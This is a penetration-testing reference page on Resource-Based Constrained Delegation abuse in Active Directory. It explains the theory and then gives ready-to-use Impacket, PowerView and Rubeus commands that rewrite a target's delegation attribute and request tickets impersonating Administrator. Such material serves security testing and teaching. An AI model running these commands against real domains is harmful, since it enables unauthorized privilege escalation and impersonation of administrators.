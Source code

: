 # (RBCD) Resource-based constrained

## Theory

If an account, having the capability to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of another object (e.g. the `GenericWrite` ACE, see [Abusing ACLs](../../access-controls/)), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.

{% hint style="success" %}
Machine accounts can edit their own `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, hence allowing RBCD attacks on relayed machine accounts authentications.
{% endhint %}

For this attack to work, the attacker needs to populate the target attribute with an account having a `ServicePrincipalName` set (needed for Kerberos delegation operations). The usual way to conduct these attacks is to create a computer account, which comes with an SPN set. This is usually possible thanks to a domain-level attribute called [`MachineAccountQuota`](../../domain-settings/machineaccountquota.md) that allows regular users to create up to 10 computer accounts. While this "computer account creation + RBCD attack" is the most common exploitation path, doing so with a user account (having at least one SPN) is perfectly feasible.

Then, in order to abuse this, the attacker has to control the account the object's attribute has been populated with (i.e. the account that has an SPN). Using that account's credentials, the attacker can obtain a ticket through `S4U2Self` and `S4U2Proxy` requests, just like constrained delegation with protocol transition.

In the end, an RBCD abuse results in a Service Ticket to authenticate on a target service on behalf of a user. Once the final Service Ticket is obtained, it can be used with [Pass-the-Ticket](../ptt.md) to access the target service.&#x20;

{% hint style="success" %}
On a side note, a technique called [AnySPN or "service class modification"](../ptt.md#modifying-the-spn) can be used concurrently with pass-the-ticket to change the service class the Service Ticket was destined to (e.g. for the `cifs/target.domain.local` SPN, the service class is `cifs`).
{% endhint %}

![](../../../../.gitbook/assets/Kerberos\_delegations-rbcd.png)

{% hint style="info" %}
The `msDS-AllowedToActOnBehalfOfOtherIdentity` was introduced with Windows Server 2012 implying that RBCD only works when the Domain Controller Functionality Level (DCFL) is Windows Server 2012 or higher.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
**1 - Edit the target's "rbcd" attribute (ACE abuse)** :pencil2: ****&#x20;

[Impacket](https://github.com/SecureAuthCorp/impacket/)'s [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py) script (Python) _c_an be used to read, write or clear the delegation rights, using the credentials of a domain user that has the needed permissions.

```bash
# Read the attribute
rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action read 'DOMAIN'/'POWERFULUSER':'PASSWORD'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity
rbcd.py -delegate-from 'accountwithSPN' -delegate-to 'target$' -dc-ip 'DomainController' -action write 'DOMAIN'/'POWERFULUSER':'PASSWORD'
```

{% hint style="success" %}
Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to set the delegation rights with the `--delegate-access` option when conducting this attack from a [relayed authentication](../../ntlm/relay.md).
{% endhint %}

**2 - Obtain a ticket (delegation operation)** :ticket: ****&#x20;

Once the attribute has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python) can then perform all the necessary steps to obtain the final "impersonating" ST (in this case, "Administrator" is impersonated but it can be any user in the environment).

```bash
getST.py -spn $target_SPN -impersonate Administrator -dc-ip $DomainController 'DOMAIN/SHUTDOWN$:SomePassword'
```

{% hint style="warning" %}
In [some cases](../delegations/#theory), the delegation will not work. Depending on the context, the [bronze bit ](../forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability (CVE-2020-17049) can be used with the `-force-forwardable` option to try to bypass restrictions.
{% endhint %}

{% hint style="info" %}
The SPN (Service Principal Name) set can have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)). There however scenarios where the SPN can be changed ([AnySPN](../ptt.md#modifying-the-spn)) to access more service. This technique is automatically tried by Impacket scripts when doing pass-the-ticket.
{% endhint %}

**3 - Pass-the-ticket** :passport\_control: ****&#x20;

Once the ticket is obtained, it can be used with [pass-the-ticket](../ptt.md).
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../../credentials/impersonation.md) part.

**1 - Edit the target's security descriptor (ACE abuse)**:pencil2: ****&#x20;

The [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object (in this case, to modify the delegation rights).

```bash
# Read the security descriptor
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount

# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'accountwithSPN'
```

PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute ([source](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html?highlight=genericall#id31)).

```bash
# Obtain the SID of the controlled computer account
$ComputerSid = Get-DomainComputer 'PENTEST01' -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

**2 - Obtain a ticket (delegation operation)** :ticket: ****&#x20;

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the TGT and "impersonation ST" and inject it for later use.

```bash
# Request the TGT
Rubeus.exe tgtdeleg

# Request the "impersonation" service ticket
Rubeus.exe s4u /user:SHUTDOWN$ /rc4:$NThash /impersonateuser:Administrator /msdsspn:$Target_SPN /ptt
```

The NT hash can be computed as follows.

```bash
Rubeus.exe hash /password:$password
```

**3 - Pass-the-ticket** :passport\_control: ****&#x20;

Once the ticket is injected, it can natively be used when accessing the service (see [pass-the-ticket](../ptt.md)).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/" %}

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/" %}
